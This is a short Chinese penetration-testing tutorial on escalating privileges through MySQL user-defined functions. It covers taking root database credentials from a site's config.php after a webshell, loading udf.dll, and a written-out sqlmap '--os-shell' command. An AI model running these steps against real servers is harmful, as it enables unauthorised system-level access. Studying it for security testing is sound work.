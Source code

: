 udf是Mysql类提权的方式之一。前提是已知mysql中root的账号密码，我们在拿到webshell后，可以看网站根目录下的config.php里，一般都有mysql的账号密码。利用root权限，创建带有调用cmd函数的’udf.dll’(动态链接库)。当我们把’udf.dll’导出指定文件夹引入Mysql时，其中的调用函数拿出来当作mysql的函数使用。这样我们自定义的函数才被当作本机函数执行。在使用CREAT FUNCITON调用dll中的函数后，mysql账号转化为system权限，从而来提权

### 提权过程

对于UDF提权，有三种方法

```
手工UDF提权
利用sqlmap进行UDF提权
利用msf来UDF提权
```

#### sqlmap进行UDF提权

先解决一个不能直连数据库的问题

```
1.git clone https://github.com/petehunt/PyMySQL/
2.cd PyMySQL/
3.python setup.py install
```

UDF提权

```
sqlmap -d "mysql://root:root@192.168.121.130:3306/mysql" --os-shell
```

不过这种方法前提是在数据库用户可以外联的情况下才能使用，secure_file_priv需要为空，不能为null

![image-20220317225229519](images/5.png)

![image-20220317225240268](images/6.png)
